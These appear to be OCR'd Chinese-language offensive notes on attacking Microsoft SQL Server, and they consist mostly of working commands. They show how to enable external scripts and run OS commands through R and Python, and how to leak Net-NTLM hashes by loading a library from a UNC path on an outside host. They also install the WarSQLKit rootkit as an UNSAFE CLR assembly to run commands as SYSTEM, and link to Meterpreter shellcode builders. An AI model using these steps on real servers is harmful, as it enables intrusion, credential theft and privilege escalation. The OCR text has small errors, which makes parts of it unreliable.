 	Machine Learning Services必须要在Python安装过程中选择
	必须启用外部脚本
	EXEC sp_configure 'external scripts enabled', 1
	RECONFIGURE WITH OVERRIDE
	重新启动数据库服务器
	用户拥有执行任何外部脚本权限
	MSSQL 2017加入了Microsoft机器学习服务，该服务允许通过MSSQL中sp_execute_external_script执行Python和R脚本
	R脚本执行命令
	sp_configure 'external scripts enabled'
	GO
	EXEC sp_execute_external_script
	@language=N'R',
	@script=N'OutputDataSet <- data.frame(system("cmd.exe
	/c dir",intern=T))'
	WITH RESULT SETS (([cmd_out] text));
	GO
	抓取Net-NTLM哈希
	@script=N'.libPaths("\\\\testhost\\foo\\bar");library("0mgh4x")'
 #### python脚本
  	exec sp_execute_external_script 
	@language =N'Python',
	@script=N'import sys
	OutputDataSet = pandas.DataFrame([sys.version])'
	WITH RESULT SETS ((python_version nvarchar(max)))
	执行命令
	exec sp_execute_external_script 
	@language =N'Python',
	@script=N'import subprocess
	p = subprocess.Popen("cmd.exe /c whoami", stdout=subprocess.PIPE)
	OutputDataSet = pandas.DataFrame([str(p.stdout.read(), "utf-8")])'
	WITH RESULT SETS (([cmd_out] nvarchar(max)))
 #### WarSQLKit
	WarSQLKit.dll: https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit/raw/master/WarSQLKit/bin/Debug/WarSQLKit.dll
	WarSQLKit_Compressed.dll: https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit/raw/master/WarSQLKit/bin/Debug/Confused/WarSQLKit.dll
	WarSQLKitMinimal.dll: https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit/raw/master/WarSQLKitMinimal/bin/Debug/WarSQLKitMinimal.dll
	Meterpreter CSharp (C#) Shellcode: https://github.com/EPICROUTERSS/Build-Meterpreter-CSharp-Shellcode
	Meterpreter CSharp（C#）Base64编码的Shellcode：https://github.com/EPICROUTERSS/Build-Encoded-Meterpreter-C-Shellcode
	OSCMDEXEC_CLR: https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/oscmdexec_clr.sql
	获取WarSQLKit字节流
	var byteStream =BitConverter.ToString(File.ReadAl1Bytes(@"c:\WarSQLKit.dll")).Replace("-",""); 
	File.WriteAllText(@"C:\bytestream.txt",byteStream);
	导入
	CREATE ASSEMBLY [WarSQLKit]
	    AUTHORIZATION [dbo]
	    FROM 0x4d5a...[...]
	    WITH PERMISSION_SET = UNSAFE;
	GO
	创建存储过程
	CREATE PROCEDURE sp_cmdExec
	@Command [nvarchar](4000)
	WITH EXECUTE AS CALLER
	AS
	EXTERNAL NAME WarSQLKit.StoredProcedures.CmdExec
	GO
	执行命令
	EXEC sp_cmdExec 'whoami';
	以NT AUTHORITY\SYSTEM权限执行Windows命令
	EXEC sp_cmdExec 'whoami /RunSystemPriv';